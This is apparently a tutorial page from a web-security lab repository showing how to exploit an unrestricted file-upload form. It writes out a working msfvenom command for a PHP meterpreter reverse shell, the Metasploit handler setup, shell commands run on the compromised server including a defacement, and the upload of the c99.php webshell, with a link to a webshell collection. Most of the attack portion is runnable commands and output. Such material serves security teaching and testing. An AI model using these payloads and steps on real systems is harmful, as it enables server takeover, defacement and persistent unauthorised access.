








# File Upload

In this example, we'll show the possibility of sending a malicious file to the Web application, and thereby compromise the server where it is hosted. For that we will use Metasploit to create a malicious payload.

After a successful upload to the server, the web application shows a success message revealing the directory where the file was stored. It is also possible to verify that the application accepts as upload any type of file and not only an image.

Since the form allows uploads of other types of files, we will create a malicious file and send it to the server through this upload mechanism. To do this, we'll use "**Metasploit**", which through the application "`msfvenom`" allows the creation of malicious payloads.

With the following command it is possible to create a "**reverse shell**", in PHP, which when executed opens a connection between the server and the attacker's machine, allowing the attacker to control it.

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.8.141 LPORT=4444 R > malicious_payload.php

    No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 949 bytes

Then you need to edit the payload (malicious_payload.php), and remove the initial comment, and save the file again.

Next we'll use Metasploit to create a service that listens for the connection from the attacker's malicious script.

    msfconsole
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.8.141
    set LPORT 4444
    exploit

    [*] Started reverse handler on 192.168.8.141:4444 
    [*] Starting the payload handler...

It is then possible to upload the malicious script to the application and the server.

Once the application reveals where it is stored, it is possible to go to that same directory, select the malicious script and run it.

After running the script, we can see in the Metasploit console (on the attacker's side) that it has received a connection from the victim (the web server, where the vulnerable application resides), and that it is now possible to use the `meterpreter` to perform actions on the victim.

In this "`meterpreter`" we can launch a shell on the remote machine and execute several commands there.

    shell

We can execute several commands there, including creating files with messages by the attacker.

    uptime
    pwd
    whoami
    w
    echo "Pwned by SOMEONE!" > hacked.html

At the end we can see that a file "hacked.html" was created on the server.
 
When we click on that file, we can see the message that was placed there!

Moreover, we might also use this "`meterpreter`" shell, to upload more malicious scripts to the server. We might for instance upload a webshell to the server. We can use the same webshell we've used before - `c99.php`. [Here](https://www.r57shell.net/), you have a collection of such shells.

    upload c99.php

Then, going back to the web application and looking at the files we have on the upload directory, we can select the `c99.php` script.

When it is executed, you have access to a shell that allows you to navigate through the system!

 